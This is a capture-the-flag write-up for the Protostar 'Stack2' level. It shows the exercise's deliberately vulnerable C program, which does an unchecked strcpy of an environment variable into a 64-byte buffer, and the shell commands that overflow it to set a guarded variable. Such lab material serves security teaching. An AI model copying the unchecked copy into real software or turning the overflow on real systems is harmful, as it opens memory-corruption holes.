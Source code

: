 #### Stack2

###### About

Stack2 looks at environment variables, and how they can be set.

This level is at ``/opt/protostar/bin/stack2``

``stack2.c``

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

###### Solution

```sh
user@protostar:/opt/protostar/bin$ export GREENIE=`python -c "print 'A'*68"`
```

```sh
user@protostar:/opt/protostar/bin$ ./stack2
Try again, you got 0x41414141
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ export GREENIE=`python -c "print 'A'*64 +'\x0a\x0d\x0a\x0d'"`
```

```sh
user@protostar:/opt/protostar/bin$ echo $GREENIE
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
user@protostar:/opt/protostar/bin$
```

